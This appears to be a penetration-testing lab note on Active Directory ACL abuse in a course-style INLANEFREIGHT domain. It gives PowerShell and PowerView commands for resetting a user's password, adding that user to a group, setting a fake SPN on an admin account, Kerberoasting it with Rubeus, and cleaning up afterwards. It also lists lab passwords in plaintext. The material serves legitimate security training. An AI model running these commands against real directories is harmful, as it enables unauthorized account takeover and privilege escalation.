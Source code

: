 # ACL Abuse Tactics

1. First we use `wley` user to change the password for the `damundsen` use
2. Authenticate as the `damundsen` user and leverage `GenericWrite` rights to add a user that we control to the `Help Desk Level 1` group
3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user

*   **Authenticate with valid user - Creating a PSCredential Object**

    to tell PowerShell we will work with wley privilege

    ```powershell
    $SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
    ```

    then create a  SecureString object which represents the new password for user
*   **Creating a SecureString Object**

    ```powershell
    $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
    ```
*   **changing the user’s password**

    ```powershell
    Import-Module .\PowerView.ps1
    Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

    # damundsenPassword  -> new password object
    # Cred -> wley credintial
    ```

    ![image.png](<../../../../.gitbook/assets/image (45).png>)
*   **Creating a SecureString Object using exploited user**

    ```powershell
    $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
    $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
    ```
*   **check a member in this group**

    which will display all members in this group

    ```powershell
    Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
    ```

    <figure><img src="../../../../.gitbook/assets/image 1 (25).png" alt=""><figcaption></figcaption></figure>
*   **Add member to this group**

    ```powershell
    Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
    # Cred2 -> damundsen credintial - secure object
    ```

    <figure><img src="../../../../.gitbook/assets/image 2 (14).png" alt=""><figcaption></figcaption></figure>
*   **Confirming user was Added to the Group**

    ```powershell
    Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
    ```

say that our client permitted us to change the password of the `damundsen` user, but the `adunn` user is an admin account that cannot be interrupted.

We can perform a targeted Kerberoasting attack

{% hint style="danger" %}
this attack will be success when you have privilege **`GenericWrite`, `GenericAll`** **`WriteProperty or WriteSPN or WritePWD` , `WriteOwner` , `WriteDACL`**
{% endhint %}

***

*   **Creating a Fake SPN**

    ```powershell
    Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
    ```

    <figure><img src="../../../../.gitbook/assets/image 5 (6).png" alt=""><figcaption></figcaption></figure>
*   **Kerberoasting with Rubeus**

    ```powershell
    .\Rubeus.exe kerberoast /user:adunn /nowrap
    ```

    <figure><img src="../../../../.gitbook/assets/image 4 (8).png" alt=""><figcaption></figcaption></figure>

***

### **Cleanup**

*   **Removing the Fake SPN from adunn's Account**

    ```powershell
    Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
    ```
*   **Removing damundsen from the Help Desk Level 1 Group**

    ```powershell
    Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
    ```
*   **Confirming damundsen was Removed from the Group**

    ```powershell
    Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
    ```
